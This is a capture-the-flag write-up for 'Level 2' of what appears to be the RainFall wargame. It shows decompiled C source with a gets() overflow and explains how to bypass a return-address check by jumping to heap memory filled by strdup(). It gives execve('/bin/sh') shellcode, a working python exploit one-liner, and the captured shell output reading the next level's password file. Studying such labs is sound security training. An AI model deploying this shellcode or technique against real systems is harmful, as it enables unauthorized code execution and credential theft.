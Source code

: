 # Level 2

<h3>source.c</h3>

```console
void p() {
  char str[64];
  uint ret;

  fflush(stdout);
  gets(str);

  ret = __builtin_return_address(0): // Compiler function to get the return adress

  if ((ret & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", ret);
    exit(1);
  }
  else {
    puts(str);
    strdup(str);
  }
}

void main() {
  p();
}
```

<h3>Analysis</h3>

We have the function main which do nothing but calling `p()`

In the `p()`, it has a protection to check if the return address starts with `0xb`, and will exit if it is

This is very concerning as the initial plan for this exploit is to overwrite the `RET` to call `system()` which in turn, spawn a shell

But after analyzing with `gdb`, the address for ths `system()` is `0xb7e6b060` which starts with `0xb`, thus we could not point to this address

```console
(gdb) p system
$4 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Normaly the address that starts with `0xb7` means that this data are inside the stack, so this prevent the execution of the stack.

We need to find another way to call the `system()` to spawn a shell for our exploit


<h3>Exploit</h3>

At the later part of the program, it will call `strdup()` which will copy whatever we enter during the `gets()`

Why is this important ?

For example, if we input the string `open_shell` to the `get()`, the `str` variable will point to an address which contains the string `open_shell`

Since `str` is part of the local variable which in turn a part of the stack, the address that `str` pointed will definitely starts with `0xb`

However, `strdup()` is a function that use malloc to get memory allocation, which will be in the `heap`

If we check with `ltrace`, `strdup()` will always returns a pointer to the address `0x0804a008`, as it does not start with `0xb`, the program will allows the `RET` to this location

So, imagine if we overwrite the `RET` address to `0x0804a008`, the program will jump to this address and start to read the copied content `open_shell`,

Now if we replace the example string `open_shell` with a real `shellcode`, the program could potentially run the `shellcode` and spawn a `shell` for us!

We can find the `shellcode` in the internet, the following will be equivalent to `execve("/bin/sh")`

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Next we need to find the offset to overwrite the `RET` pointer, using the same method as the previous level, we found that we need `80 bytes` as the offset

The `shellcode` itself is 28 bytes, so we need to add another 52 random char as bytes as the offset + address of the pointer return by `strdup()`

We need to print the `shellcode` first before the random char, because we want the program to run it as soon as it jumps

The final exploit will looks like this

`'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 52 + '\x08\xa0\x04\x08'`

```console
level2@RainFall:~$ (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 52 + '\x08\xa0\x04\x08'"; cat - ) | ./level2
1�Ph//shh/bin����°
                   ̀1�@̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

<h3>Helpful link for this exploit</h3>

```console
https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=15
https://www.youtube.com/watch?v=m17mV24TgwY&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=17
http://shell-storm.org/shellcode/files/shellcode-811.php
```